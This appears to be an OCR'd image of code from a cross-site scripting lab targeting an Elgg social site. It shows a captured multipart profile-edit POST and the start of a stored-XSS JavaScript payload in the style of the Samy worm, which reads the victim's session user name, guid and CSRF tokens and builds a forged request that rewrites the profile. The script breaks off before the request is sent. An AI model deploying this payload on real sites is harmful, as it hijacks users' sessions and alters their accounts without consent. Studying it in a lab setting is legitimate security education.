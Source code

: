 ```
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[briefdescription]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="location"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[location]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="interests"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[interests]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="skills"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[skills]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="contactemail"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[contactemail]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="phone"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[phone]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="mobile"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[mobile]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="website"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[website]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="twitter"
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="accesslevel[twitter]"
2
------WebKitFormBoundarywTWFRbcqOckh4hVo
Content-Disposition: form-data; name="guid"
59
------WebKitFormBoundarywTWFRbcqOckh4hVo--
```

```
<script type="text/javascript">
window.onload = function(){
    // JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var desc = "&description=Samy is my hero" + "&accesslevel[description] = 2";

    // Construct the content of your url.
    var content=token+ts+"&name=" + userName + desc + guid;     //FILL IN
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var samyGuid=59;   
```